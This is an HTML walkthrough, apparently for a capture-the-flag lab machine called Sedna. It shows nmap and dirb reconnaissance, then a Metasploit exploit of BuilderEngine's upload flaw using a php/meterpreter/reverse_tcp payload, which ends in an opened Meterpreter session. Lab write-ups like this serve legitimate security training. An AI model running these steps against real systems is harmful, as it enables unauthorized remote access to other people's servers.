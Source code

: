 <!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <center><h1 style="margin-top:100px;font-size:150px;color: red;">Sedna Machine</h1></center>
    <center><h2 style="margin-top: -100px;font-size: 50px;color: brown;">Walkthrough</h2></center>

    <h1 style="font-size: 50px;">Lets Start With Nmap</h1>
    <p style="font-size: 40px;margin-left: 60px;">nmap -A  -p-  -T4  -sV  --script  vuln  [ip]</p>
    <img style="margin-left: 60px;" src="./nmap_command.png" alt="">
    <h1 style="font-size: 50px;">The Open Ports</h1>
    <img style="margin-left: 60px;" src="./ports.png" alt="">
    <p style="font-size: 40px;margin-left: 60px;">Note : There Is Website </p>
    <h1 style="font-size: 50px;">Website</h1> 
    <img style="margin-left: 60px;" src="./Welcom_sedna.png" alt="">
    <h1 style="font-size: 50px;">Search Directories</h1> 
    <p style="font-size: 40px;margin-left: 60px;">dirb    [ip] </p>
    <img style="margin-left: 60px;" src="./dirb.png" alt="">
    <h1 style="font-size: 50px;">Result Of Search Directories</h1> 
    <p style="font-size: 40px;margin-left: 60px;">There Is This File : http://[ip]/modules/builder_market/license.txt</p>
    <img style="margin-left: 60px;" src="./link.png" alt="">
    <br><br><br>
    <p style="font-size: 40px;margin-left: 60px;">We Got A Service</p>
    <img style="margin-left: 60px;" src="./Version.png" alt="">
    <h1 style="font-size: 50px;">Lets Search With Google To Get Exploit</h1> 
    <p style="font-size: 40px;margin-left: 60px;">builderengine exploit</p>
    <img style="margin-left: 60px;" src="./search.png" alt="">
    <p style="font-size: 40px;margin-left: 60px;">Link : <a href="https://www.rapid7.com/db/modules/exploit/multi/http/builderengine_upload_exec/">Here</a></p>
    <h1 style="font-size: 50px;">Open Metasploit</h1> 
    <p style="font-size: 40px;margin-left: 60px;">Write : msfconsole      in kali</p>
    <img style="margin-left: 60px;" src="./msf.png" alt="">
    <h1 style="font-size: 50px;">Start Exploit</h1> 
    <p style="font-size: 40px;margin-left: 60px;">use exploit/multi/http/builderengine_upload_exec</p>
    <img style="margin-left: 60px;" src="./Msf_exploit.png" alt="">
    <p style="font-size: 40px;margin-left: 60px;">set RHOSTS   [ip]</p>
    <img style="margin-left: 60px;" src="./rhost.png" alt="">
    <p style="font-size: 40px;margin-left: 60px;">set PAYLOAD php/meterpreter/reverse_tcp</p>
    <img style="margin-left: 60px;" src="./payload.png" alt="">
    <h1 style="font-size: 50px;">Lets Run</h1> 
    <p style="font-size: 40px;margin-left: 60px;">run</p>
    <img style="margin-left: 60px;" src="./run.png" alt="">
    <p style="font-size: 40px;margin-left: 60px;">Meterpreter session opened</p>
    <img style="margin-left: 60px;" src="./session.png" alt="">
    <center><h1 style="margin-top:100px;font-size:90px;color: red;">Have Fun With Sedna</h1> </center>
    
    


</body>
</html>
